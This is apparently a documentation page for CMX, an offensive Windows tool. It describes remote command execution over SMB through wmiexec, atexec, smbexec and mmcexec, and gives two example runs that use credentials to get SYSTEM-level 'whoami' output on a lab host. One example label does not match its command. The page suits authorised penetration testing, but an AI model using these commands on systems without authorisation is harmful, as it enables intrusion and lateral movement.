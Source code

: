 ###### Not all currently working. Mileage may vary depending on exec-method and target OS

Options for executing custom or built-in commands.  


### Execution Methods

CMX has four different command execution methods:
  
- ```wmiexec``` executes commands via WMI
- ```atexec``` executes commands by scheduling a task with windows task scheduler
- ```smbexec``` executes commands by creating and running a service
- ```mmcexec``` similar approach to wmiexec but executing commands through MMC  
   
Details on the execution methods and thier respective advantages can be found  
in the opening comment description of the exec files. /cmx/modules/smb/[name]exec.py  
  
By default CMX will fail over to a different execution method if one fails. It attempts to execute commands in the following order:  

1. ```wmiexec```
2. ```mmcexec```
3. ```atexec```
4. ```smbexec```

If you want to force CMX to use only one execution method you can specify which one using the ```--exec-method``` flag.  
The command execution method is denoted in the Executed Command output line.  
WMIEXEC example, note the 'Executed command via wmiexec' output line.  
```
~# cmx smb 10.10.33.124 -u agrande -p User\!23 -x 'whoami' --exec-method smbexec
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Executing Command
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Execution Completed.
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Results:
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124     nt authority\system

```

  
### Executing Commands
  
In the following example, we try to execute ```whoami``` on the target using the ```-x``` flag:  
```
#~ cmx smb 10.10.33.124 -u agrande -p User\!23 -x 'whoami' --exec-method smbexec
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [*] Executing Command
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Execution Completed.
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124 [+] Results:
Aug.20.19 16:12:57  SMB         10.10.33.124:445  10.10.33.124     nt authority\system
```
